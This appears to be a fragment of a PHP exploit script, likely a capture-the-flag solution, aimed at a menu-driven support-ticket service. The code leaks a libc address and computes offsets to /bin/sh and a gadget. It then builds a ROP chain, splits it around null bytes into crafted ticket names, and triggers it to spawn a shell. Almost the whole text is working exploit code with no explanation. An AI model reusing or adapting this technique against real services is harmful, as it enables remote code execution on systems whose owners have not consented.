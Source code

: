 ```php
assert($delta < 35 * 128);

transfer($fp, 0, 128, $delta);
transfer_drain($fp);

printf("[*] Leak libc\n");
$leak = menu($fp);
fwrite($fp, "0\n");
expectLine($fp, "Invalid option 0");
expectLine($fp, "");
expectLine($fp, "");

$stdout = hexdec($leak) - 131;
$libc   = $stdout - OFF_STDOUT;
$binsh  = $libc + OFF_BINSH;
$gadget = $libc + OFF_GADGET;

printf("[+] stdout: %X\n", $stdout);
printf("[+] libc:   %X\n", $libc);
printf("[+] binsh:  %X\n", $binsh);
printf("[+] gadget: %X\n", $gadget);
printf("\n");

assert(0 === ($libc & 0xFFF));
assert(0 === ($libc >> 48));

printf("[*] Prepare ROP chain\n");
$chain  = str_repeat("@", 0x38 - (0x10 + strlen("Support ticket from ")));
$chain .= pack("P", -1);      // rbx
$chain .= pack("P", $binsh);  // r12
$chain .= pack("P", -1);      // r13
$chain .= pack("P", -1);      // r14
$chain .= pack("P", -1);      // r15
$chain .= pack("P", -1);      // rbp
$chain .= pack("P", $gadget); // rip
$chain  = rtrim($chain, "\x00");


$blocks = explode("\x00", $chain);
$acc = [];

foreach($blocks as $i => $block) {
	if(0 === $i)
		$acc[$i] = $block;
	else
		$acc[$i] = str_repeat("A", strlen($acc[$i - 1]) + 1) . $block;
}

$acc = array_reverse($acc);
foreach($acc as $i => $name)
	create($fp, $name);

foreach($acc as $i => $name)
	create_drain($fp, -127 + $i);

foreach($acc as $i => $name)
	issue($fp, 129 + $i, "TFNS");

foreach($acc as $i => $name)
	issue_drain($fp);

printf("[*] Run chain\n");
menu($fp);
```